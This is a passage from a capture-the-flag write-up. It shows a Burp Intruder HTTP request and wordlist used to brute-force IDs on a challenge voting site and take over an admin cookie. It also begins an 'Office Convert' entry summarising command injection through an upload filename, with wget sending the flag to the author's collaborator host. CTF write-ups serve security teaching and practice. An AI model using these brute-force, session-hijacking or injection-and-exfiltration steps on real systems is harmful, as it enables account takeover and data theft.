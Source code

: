 Seems bruteforceable.

Run burp intruder with
```http
POST /index.php/old-request HTTP/1.1
Host: voting.challs.cybersecuritychallenge.ro
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://voting.challs.cybersecuritychallenge.ro/index.php/i-am-old
Content-Type: application/x-www-form-urlencoded
Content-Length: 69
DNT: 1
Connection: close

_token=xqECJlt3eF6feIQMbvOVaglQHs8FZJxjo3Izlcfo&email=§myemail%40gmail.com§
```

And the following wordlist

```
myemail@gmail.com
sqe027adVn@bkmvenjrbhvuerb23.com
myemail@gmail.com
sqe027adVn@bkmvenjrbhvuerb23.com
myemail@gmail.com
sqe027adVn@bkmvenjrbhvuerb23.com
myemail@gmail.com
sqe027adVn@bkmvenjrbhvuerb23.com
```

Got two close ids. Bruteforce between them. Got cookie for admin. Copied the cookie in browser and the flag was there. See picture above.


Office Convert (150p): Web
==========


**Summary**

Command injection in upload `filename`. Some small limitations. Used `wget` to post flag to my burp collab.
